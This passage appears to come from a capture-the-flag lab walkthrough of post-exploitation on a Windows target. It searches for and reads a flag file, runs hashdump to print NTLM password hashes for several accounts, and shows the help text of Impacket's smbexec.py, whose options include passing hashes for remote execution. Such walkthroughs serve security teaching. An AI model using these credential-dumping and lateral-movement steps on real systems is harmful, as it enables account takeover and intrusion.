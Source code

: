 _Use the shell command to search for files with the keyword `flag` and retrieve the contents to obtain the flag for the lab._

`shell`, `where /r C:\ ""*flag*"`:
```
C:\flag.txt ←
```

_Read the contents of the flag file to complete the objective._

`type C:\flag.txt`:
```
0903a189cbe112bce4b75bbc7c50357c ←
```

_Extract password hashes from the target machine using the `hashdump` command, which can be used for further lateral movement or post-exploitation activities._

`hashdump`:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:00527325548f776793aabfd5cfe39a78::: ←
auditor:1012:aad3b435b51404eeaad3b435b51404ee:a23d91ad69cb32adbc0195a25a54ba54:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
demo:1013:aad3b435b51404eeaad3b435b51404ee:1f637fde0d3ee5f09474683d312bd5aa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sysadmin:1011:aad3b435b51404eeaad3b435b51404ee:92b668493ab02a17dbb21616e71b2ae2:::
```

**Explanation:** The extracted password hashes provide valuable information that can be used in future attacks or for maintaining persistence on the network.

<span style="color: #e57373;">**Attacker machine**</span>.

_Finally, review the help options for `smbexec.py` to explore additional features and functionalities that might be useful in similar scenarios._

`smbexec.py --help`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

usage: smbexec.py [-h] [-share SHARE] [-mode {SHARE,SERVER}] [-ts] [-debug] [-codec CODEC] [-dc-ip ip address] [-target-ip ip address]
                  [-port [destination port]] [-service-name service_name] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                  [-keytab KEYTAB]
                  target

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          share where the output will be grabbed from (default C$)
  -mode {SHARE,SERVER}  mode to use (default SHARE, SERVER needs root!)
  -ts                   adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -codec CODEC          Sets encoding used (codec) from the target's output (default "utf-8"). If errors are detected, run chcp.com at the
                        target, map the result with https://docs.python.org/3/library/codecs.html#standard-encodings and then execute
                        smbexec.py again with -codec and the corresponding codec

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use whatever was specified as target. This is useful when target
                        is the NetBIOS name and you cannot resolve it
```